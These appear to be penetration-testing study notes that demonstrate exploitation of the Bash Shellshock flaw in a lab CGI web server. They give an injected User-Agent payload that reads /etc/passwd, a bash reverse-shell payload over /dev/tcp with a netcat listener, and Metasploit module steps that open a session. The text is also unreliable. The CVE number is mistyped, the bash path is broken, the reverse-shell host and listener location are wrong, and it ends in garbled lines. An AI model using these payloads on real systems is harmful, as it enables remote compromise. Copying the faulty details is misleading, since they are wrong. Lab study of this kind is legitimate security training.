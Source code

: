 # Exploiting Bash CVE-20214-6271 Vulnerability (Shellshock)

- Shellshock (CVE-2014-6271) is s family of vulnerabilites in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allwing the attacker to obtain remote access to the target system via a reverse shell.
- The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
- Only affects Linux (not Windows)
- In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
- CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.
  
- In order to exploit this vulnerability, we need to locate a input vector or script that allows you to communicate with Bash
- In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
- Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with bash.
- This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.

## Demo: Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)

### Manually

We want to get the target IP:

`ifconfig`

`namp -sV [target IP]`

Port 80, target IP is running a webserver. We can confirm this with the browser. The countdown is done by a CGI script. It executes the gettime.cgi script and we can access it because its in the root [targetip]/cgi.script. We can utilize this as our input vector. We can check if this system is vulnerable to our attack strategy:

`nmap -sV [target IP] --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`

Target is vulnerable and exploitable. Foxy Proxy allows to switch between Proxy's. We open BurpSuite and we use the default config:

Proxy -> Intercept ON -> We make a get request for the gettime.cgi script.

We are going to inject the special characters into the user agent http header. Send request to Repeater (rightclick) -> Repeater tab. We can replace the user agent information with our special characters. User Agent: `() { :; }; echo; echo; /binbash -c 'cat /etc/passwd'` To send this request: SEND. So it displays the output of this command in RESPONSE.

Getting reverse shell on target? We can utilize bash to connect to a listener to our kali linux system:

Listens to that port on the target system:

`nc -nvlp 1234`

We open Burpsuite, in REQUEST we replace our old command: `() { :; }; echo; echo; /binbash -c 'bash -i>&/dev/tcp/[target IP]/1234 0>&1'` SEND. we should get a reverse shell on our netcat listener. connection on target should be established:

We are logged in as the deamon@victim-1
`whoami`

enumerate info regarding the distro
`cat /etc/*issue`

gives us the kernel info
`uname -a`

### Automatically

service postgresql start && msfconsole

search shellshock

auxiliary module tells us if the target is vulnerable.

use exploit/multi/http/apache_mod_cgi_bash_env_exec

msf 5 exploit: show options

set rhosts [target IP]

We need to specify the targeturi, which is the path to the cgi script:

set targeturi /gettime.cgi

exploit

successfully obtained meterpreter session on the target.


node module auyiliary verben noding
 metasploit module hshhj
